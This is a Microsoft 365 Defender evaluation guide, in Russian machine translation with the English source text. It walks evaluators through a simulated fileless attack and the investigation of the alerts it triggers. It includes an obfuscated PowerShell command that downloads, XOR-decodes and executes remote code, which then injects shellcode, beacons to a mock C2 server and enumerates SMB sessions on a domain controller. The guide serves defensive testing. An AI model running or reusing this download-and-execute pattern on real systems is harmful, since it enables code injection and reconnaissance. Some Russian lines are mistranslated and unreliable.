

# <a name="run-your-microsoft-365-defender-attack-simulations"></a><span data-ttu-id="2a5d9-104">Запуск имитации атак Microsoft 365 Defender</span><span class="sxs-lookup"><span data-stu-id="2a5d9-104">Run your Microsoft 365 Defender attack simulations</span></span>

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|<span data-ttu-id="2a5d9-105">[](mtp-pilot-plan.md)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-105">[](mtp-pilot-plan.md)</span></span><br/>[<span data-ttu-id="2a5d9-106">Планирование</span><span class="sxs-lookup"><span data-stu-id="2a5d9-106">Planning</span></span>](mtp-pilot-plan.md)|<span data-ttu-id="2a5d9-107">[](prepare-mtpeval.md)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-107">[](prepare-mtpeval.md)</span></span><br/>[<span data-ttu-id="2a5d9-108">Подготовка</span><span class="sxs-lookup"><span data-stu-id="2a5d9-108">Preparation</span></span>](prepare-mtpeval.md)|<br/><span data-ttu-id="2a5d9-110">Имитация атаки</span><span class="sxs-lookup"><span data-stu-id="2a5d9-110">Simulate attack</span></span>|<span data-ttu-id="2a5d9-111">[](mtp-pilot-close.md)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-111">[](mtp-pilot-close.md)</span></span><br/>[<span data-ttu-id="2a5d9-112">Закрытие и итоги</span><span class="sxs-lookup"><span data-stu-id="2a5d9-112">Close and summarize</span></span>](mtp-pilot-close.md)|
|--|--|--|--|
|||<span data-ttu-id="2a5d9-113">*Вы здесь!*</span><span class="sxs-lookup"><span data-stu-id="2a5d9-113">*You are here!*</span></span>||

<span data-ttu-id="2a5d9-114">В настоящее время вы в стадии моделирования атак.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-114">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="2a5d9-115">После подготовки пилотной среды настало время протестировать управление инцидентами Microsoft 365 Defender и возможности автоматического расследования и восстановления.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-115">After preparing your pilot environment, it's time to test the Microsoft 365 Defender incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="2a5d9-116">Мы поможем вам смоделировать сложную атаку, которая использует передовые методы, чтобы скрыться от обнаружения.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-116">We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="2a5d9-117">При атаке были открыты сеансы блокировки сообщений сервера (SMB) на контроллерах домена и извлечены последние IP-адреса устройств пользователей.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-117">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="2a5d9-118">Эта категория атак обычно не включает файлы, сброшенные на устройство жертвы, они происходят исключительно в памяти.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-118">This category of attacks usually doesn't include files dropped on the victim's device—they occur solely in memory.</span></span> <span data-ttu-id="2a5d9-119">Они "живут за счет земли", используя существующие системные и административные средства, и вводят свой код в системные процессы, чтобы скрыть их выполнение, такое поведение позволяет им уклоняться от обнаружения и сохраняться на устройстве.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-119">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="2a5d9-120">В этом моделировании пример сценария начинается со сценария PowerShell.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-120">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="2a5d9-121">Пользователь может быть обманут при запуске скрипта.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-121">A user might be tricked into running a script.</span></span> <span data-ttu-id="2a5d9-122">Или сценарий может запускаться из удаленного подключения к другому компьютеру с ранее зараженного устройства — злоумышленник пытается двигаться по сети.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-122">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="2a5d9-123">Обнаружение этих скриптов может быть затруднено, так как администраторы также часто запускают сценарии удаленно для выполнения различных административных действий.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-123">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="2a5d9-125">Во время моделирования атака впрыскиивает код оболочки в казалось бы невинный процесс.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-125">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="2a5d9-126">Сценарий требует использования notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-126">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="2a5d9-127">Мы выбрали этот процесс для моделирования, но злоумышленники, скорее всего, будут нацелены на длительный системный процесс, например svchost.exe.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-127">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="2a5d9-128">Затем код оболочки отправляется на контакт с сервером командно-диспетчерской системы (C2) злоумышленника, чтобы получить инструкции о том, как действовать дальше.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-128">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="2a5d9-129">Сценарий пытается выполнять разведывательные запросы в отношении контроллера домена (DC).</span><span class="sxs-lookup"><span data-stu-id="2a5d9-129">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="2a5d9-130">Разведка позволяет злоумышленнику получать сведения о последних сведениях входа пользователя.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-130">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="2a5d9-131">После получения злоумышленниками этой информации они могут перемещаться по сети, чтобы перейти к определенной конфиденциальной учетной записи.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-131">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="2a5d9-132">Для достижения оптимальных результатов выполните инструкции по моделированию атак как можно ближе.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-132">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

## <a name="simulation-environment-requirements"></a><span data-ttu-id="2a5d9-133">Требования среды моделирования</span><span class="sxs-lookup"><span data-stu-id="2a5d9-133">Simulation environment requirements</span></span>

<span data-ttu-id="2a5d9-134">Так как вы уже настроили пилотную среду на этапе подготовки, убедитесь, что у вас есть два устройства для этого сценария: тестового устройства и контроллера домена.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-134">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1. <span data-ttu-id="2a5d9-135">Убедитесь, что клиент [включил Microsoft 365 Defender.](./mtp-enable.md#starting-the-service)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-135">Verify your tenant has [enabled Microsoft 365 Defender](./mtp-enable.md#starting-the-service).</span></span>

2. <span data-ttu-id="2a5d9-136">Проверка конфигурации контроллера тестового домена:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-136">Verify your test domain controller configuration:</span></span>

   - <span data-ttu-id="2a5d9-137">Устройство работает с Windows Server 2008 R2 или более поздней версией.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-137">Device runs with Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="2a5d9-138">Контроллер тестового домена [для Microsoft Defender для identity](/azure/security-center/security-center-wdatp) и включает [удаленное управление.](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-138">The test domain controller to [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) and enable [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="2a5d9-139">Убедитесь, что включена интеграция Microsoft Defender для удостоверений и [microsoft Cloud App Security.](/cloud-app-security/mdi-integration)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-139">Verify that [Microsoft Defender for Identity and Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) have been enabled.</span></span>
   - <span data-ttu-id="2a5d9-140">Тестовый пользователь создается на вашем домене, для этого не требуется никаких разрешений администратора.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-140">A test user is created on your domain – no admin permissions needed.</span></span>

3. <span data-ttu-id="2a5d9-141">Проверка конфигурации тестового устройства:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-141">Verify test device configuration:</span></span>

   1. <span data-ttu-id="2a5d9-142">Устройство работает с Windows 10 версии 1903 или более поздней версии.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-142">Device runs with Windows 10 version 1903 or a later version.</span></span>

   1. <span data-ttu-id="2a5d9-143">Тестовая устройство присоединяется к тестовой области.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-143">Test device is joined to the test domain.</span></span>

   1. <span data-ttu-id="2a5d9-144">[Включи Защитник Windows антивирус](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="2a5d9-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="2a5d9-145">Если у вас возникли проблемы с включением Защитник Windows антивируса, см. в этом разделе [устранение неполадок.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="2a5d9-146">Убедитесь, что тестового устройства на борту [в Microsoft Defender для конечной точки)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="2a5d9-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="2a5d9-147">Если вы используете существующий клиент и реализуете группы устройств, создайте специальную группу устройств для тестового устройства и вытолкнуйте его на верхний уровень в конфигурации UX.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="2a5d9-148">Запуск моделирования сценария атаки</span><span class="sxs-lookup"><span data-stu-id="2a5d9-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="2a5d9-149">Для запуска моделирования сценария атаки:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="2a5d9-150">Войдите на тестовом устройстве с учетной записью тестовых пользователей.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="2a5d9-151">Откройте окно Windows PowerShell на тестовом устройстве.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="2a5d9-152">Скопируйте следующий сценарий моделирования:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="2a5d9-153">Если вы откроете этот документ в веб-браузере, могут возникнуть проблемы с копированием полного текста без потери определенных символов или введения дополнительных разрывов строк.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="2a5d9-154">Скачайте этот документ и откройте его в Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="2a5d9-155">По запросу вклеить и запустить скопированные скрипты.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="2a5d9-156">Если вы используете PowerShell с помощью протокола удаленного рабочего стола (RDP), используйте команду Type Clipboard Text в клиенте RDP, так как метод **CTRL-V** или метод вклейки правой кнопкой мыши может не работать.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="2a5d9-157">Недавние версии PowerShell иногда также не принимают этот метод, вам может потребоваться сначала скопировать блокнот в памяти, скопировать его в виртуальной машине, а затем вклеить в PowerShell.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="2a5d9-158">Через несколько секунд <i>notepad.exe</i> откроется.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-158">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="2a5d9-159">Смоделированный код атаки будет вводиться в notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-159">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="2a5d9-160">Не открывай автоматически созданный экземпляр блокнота, чтобы получить полный сценарий.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-160">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="2a5d9-161">Смоделированный код атаки будет пытаться связываться с внешним IP-адресом (имитирующим сервер C2), а затем пытаться вести разведку в отношении контроллера домена через SMB.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-161">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="2a5d9-162">После завершения сценария на консоли PowerShell отображается сообщение.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-162">You'll see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="2a5d9-163">Чтобы увидеть функцию Automated Incident and Response в действии, notepad.exe процесс.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-163">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="2a5d9-164">Вы увидите, как автоматические инциденты и ответы останавливают процесс блокнота.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-164">You'll see Automated Incident and Response stop the Notepad process.</span></span>

## <a name="investigate-an-incident"></a><span data-ttu-id="2a5d9-165">Исследование инцидента</span><span class="sxs-lookup"><span data-stu-id="2a5d9-165">Investigate an incident</span></span>

> [!NOTE]
> <span data-ttu-id="2a5d9-166">Перед тем, как мы пройдемся по этому моделированию, просмотрите следующее видео, чтобы узнать, как управление инцидентами помогает собрать связанные оповещения вместе в рамках процесса расследования, найти их на портале и как это может помочь вам в операциях по безопасности:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-166">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="2a5d9-167">Перейдя на точку зрения аналитика SOC, вы можете приступить к расследованию атаки на портале Центра безопасности Microsoft 365.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-167">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span>

1. <span data-ttu-id="2a5d9-168">Откройте очередь инцидентов на портале Центра безопасности Microsoft [365](https://security.microsoft.com/incidents) с любого устройства.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-168">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2. <span data-ttu-id="2a5d9-169">Перейдите **к инцидентам** из меню.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-169">Navigate to **Incidents** from the menu.</span></span>

    

3. <span data-ttu-id="2a5d9-171">Новый инцидент для имитации атаки появится в очереди инцидента.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-171">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="2a5d9-173">Расследование атаки как одного инцидента</span><span class="sxs-lookup"><span data-stu-id="2a5d9-173">Investigate the attack as a single incident</span></span>

<span data-ttu-id="2a5d9-174">Microsoft 365 Defender сопоставляет аналитику и совмещает все связанные оповещения и расследования из различных продуктов в одно целое инцидентов.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-174">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="2a5d9-175">Таким образом, в Microsoft 365 Defender показана более широкая история атак, позволяющая аналитику SOC понимать сложные угрозы и реагировать на них.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-175">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="2a5d9-176">Оповещения, созданные во время этого моделирования, связаны с той же угрозой, и в результате автоматически агрегируются как один инцидент.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-176">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="2a5d9-177">Чтобы просмотреть инцидент:</span><span class="sxs-lookup"><span data-stu-id="2a5d9-177">To view the incident:</span></span>

1. <span data-ttu-id="2a5d9-178">Перейдите к **очереди Инциденты.**</span><span class="sxs-lookup"><span data-stu-id="2a5d9-178">Navigate to the **Incidents** queue.</span></span>

   

2. <span data-ttu-id="2a5d9-180">Выберите самый новый элемент, нажав на круг, расположенный слева от имени инцидента.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-180">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="2a5d9-181">На боковой панели отображаются дополнительные сведения об инциденте, включая все связанные оповещения.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-181">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="2a5d9-182">Каждый инцидент имеет уникальное имя, которое описывает его на основе атрибутов включенных в него оповещений.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-182">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   

   <span data-ttu-id="2a5d9-184">Оповещения, которые показываются на панели мониторинга, можно фильтровать на основе ресурсов служб: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender и Microsoft Defender для Office 365.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-184">The alerts that show in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="2a5d9-185">Выберите **страницу Открытый** инцидент, чтобы получить дополнительные сведения об инциденте.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-185">Select **Open incident page** to get more information about the incident.</span></span>

   <span data-ttu-id="2a5d9-186">На странице **Incident** можно увидеть все оповещения и сведения, связанные с инцидентом.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-186">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="2a5d9-187">Эти сведения включают объекты и активы, участвующие в оповещении, источник обнаружения оповещений (Microsoft Defender for Identity, EDR) и причину их взаимосвязи.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-187">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Microsoft Defender for Identity, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="2a5d9-188">Просмотр списка оповещений об инциденте показывает прогрессирование атаки.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-188">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="2a5d9-189">Из этого представления можно просмотреть и изучить отдельные оповещения.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-189">From this view, you can see and investigate the individual alerts.</span></span>

   <span data-ttu-id="2a5d9-190">Вы также можете нажать **кнопку Управление** инцидентом из правой стороны меню, чтобы отметить инцидент, назначить его себе и добавить комментарии.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-190">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

   

   

### <a name="review-generated-alerts"></a><span data-ttu-id="2a5d9-193">Просмотр созданных оповещений</span><span class="sxs-lookup"><span data-stu-id="2a5d9-193">Review generated alerts</span></span>

<span data-ttu-id="2a5d9-194">Рассмотрим некоторые оповещения, созданные во время имитации атаки.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-194">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="2a5d9-195">Мы проявим только несколько оповещений, созданных во время имитации атаки.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-195">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="2a5d9-196">В зависимости от версии Windows и продуктов Microsoft 365 Defender, работающих на тестовом устройстве, вы можете видеть больше оповещений, которые отображаются в несколько ином порядке.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-196">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="2a5d9-198">Предупреждение. Наблюдается подозрительный процесс впрыскивания (Источник: Microsoft Defender для endpoint EDR)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-198">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="2a5d9-199">Расширенные злоумышленники используют сложные и скрытные методы для сохраняющихся в памяти и скрыться от средств обнаружения.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-199">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="2a5d9-200">Одним из распространенных методов является работа в рамках доверенного системного процесса, а не из вредоносного исполняемого, что делает его трудно для средств обнаружения и операций безопасности, чтобы обнаружить вредоносный код.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-200">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="2a5d9-201">Чтобы позволить аналитикам SOC ловить эти расширенные атаки, датчики глубокой памяти в Microsoft Defender для Конечной точки предоставляют нашей облачной службе беспрецедентную видимость в различных методах впрыскивания кода.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-201">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="2a5d9-202">На следующем рисунке показано, как Defender для конечной точки обнаруживали и оповещали о попытке ввести код <i>вnotepad.exe. </i></span><span class="sxs-lookup"><span data-stu-id="2a5d9-202">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="2a5d9-204">Предупреждение. Непредвиденное поведение, наблюдаемое процессом без аргументов командной строки (Источник: Microsoft Defender for Endpoint EDR)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-204">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="2a5d9-205">Обнаружение microsoft Defender для конечных точек часто нацелено на наиболее распространенный атрибут метода атаки.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-205">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="2a5d9-206">Этот метод обеспечивает долговечность и повышает планку перехода злоумышленников на более новую тактику.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-206">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="2a5d9-207">Мы используем крупномасштабные алгоритмы обучения для установления нормального поведения общих процессов в организации и во всем мире и следим за тем, когда эти процессы показывают аномальное поведение.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-207">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="2a5d9-208">Эти аномальные действия часто указывают на то, что внедрили и запускают в другом доверяемом процессе.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-208">These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.</span></span>

<span data-ttu-id="2a5d9-209">В этом сценарии <i> процесс </i>notepad.exeаномальное поведение, связанное с связью с внешним расположением.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-209">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="2a5d9-210">Этот результат не зависит от конкретного метода, используемого для внедрения и выполнения вредоносного кода.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-210">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="2a5d9-211">Поскольку это предупреждение основано на моделях машинного обучения, которые требуют дополнительной обработки backend, может потребоваться некоторое время, прежде чем вы увидите это оповещение на портале.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-211">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="2a5d9-212">Обратите внимание, что сведения об оповещении включают внешний IP-адрес — индикатор, который можно использовать в качестве поворота для расширения расследования.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-212">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="2a5d9-213">Выберите IP-адрес в дереве процесса оповещения, чтобы просмотреть страницу сведений о IP-адресе.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-213">Select the IP address in the alert process tree to view the IP address details page.</span></span>


<span data-ttu-id="2a5d9-215">На следующем рисунке отображается выбранная страница сведений об IP-адресе (щелкнув IP-адрес в дереве процесса Оповещения).</span><span class="sxs-lookup"><span data-stu-id="2a5d9-215">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="2a5d9-216"></span><span class="sxs-lookup"><span data-stu-id="2a5d9-216"></span></span>

#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="2a5d9-217">Оповещение. Разведка пользовательских и IP-адресов (SMB) (Источник: Microsoft Defender for Identity)</span><span class="sxs-lookup"><span data-stu-id="2a5d9-217">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

<span data-ttu-id="2a5d9-218">Составление переучета с помощью протокола Блокировка серверных сообщений (SMB) позволяет злоумышленникам получать последние сведения о логосе пользователя, которые помогают им перемещаться по сети, чтобы получить доступ к определенной конфиденциальной учетной записи.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-218">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="2a5d9-219">В этом обнаружении срабатывает оповещение при запуске переумерия сеанса SMB с контроллером домена.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-219">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a><span data-ttu-id="2a5d9-221">Просмотрите хронологию устройства [Microsoft Defender для конечной точки]</span><span class="sxs-lookup"><span data-stu-id="2a5d9-221">Review the device timeline [Microsoft Defender for Endpoint]</span></span>

